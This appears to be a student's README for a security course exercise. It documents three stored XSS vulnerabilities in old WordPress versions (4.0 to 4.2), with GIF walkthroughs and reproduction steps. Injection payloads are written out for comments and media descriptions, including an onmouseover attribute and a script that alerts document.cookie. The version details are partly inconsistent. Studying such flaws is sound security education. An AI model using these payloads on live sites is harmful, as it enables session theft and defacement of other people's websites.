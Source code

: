# README

Time Spent: 4 hours in total

Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

XXS

  - [ ] Summary: 
  
      I am using XSS with WP 4.2, which was fixed in version 4.2.1.
  - [ ] GIF Walkthrough:![](https://i.imgur.com/xslxj31.gif)
  - [ ] Steps to Recreate:
  42f60001cad9
     You have to comment on a post and insert the following into a comment: 
     
     <a title='x onmouseover=alert(unescape(/hello%20world/.source))          style=position:absolute;left:0;top:0;width:5000px;height:5000px <You will then insert 64,000 of a character and hit comment>
  - [ ] Affected Source Code: 
        None
  
  
XXS

  - [ ] Summary:
  
  I am using XSS with WP 4.2, which was fixed in version 4.7.3.
  - [ ] GIF Walkthrough: ![](https://i.imgur.com/uDAam90.gif)
  - [ ] Steps to Recreate:
  
        1. Create a media post 
        
        2. Add  "filename <script>alert("Exploit 3 Successful");</script>" to the desciption (include the quotes)
        
        3. Then click view attachment page and the alert box will pop up
  - [ ] Affected Source Code:
        None
  
  
  XXS

  - [ ] Summary:
 
  I am using XSS with WP 4.0, which was fixed in version 4.2.
  - [ ] GIF Walkthrough:![](https://i.imgur.com/oEVvcpm.gif)
  - [ ] Steps to Recreate:
  
  You post the following into a comment on a post: <script>while(1){alert(document.cookie);}<script>
  - [ ] Affected Source Code:
        None

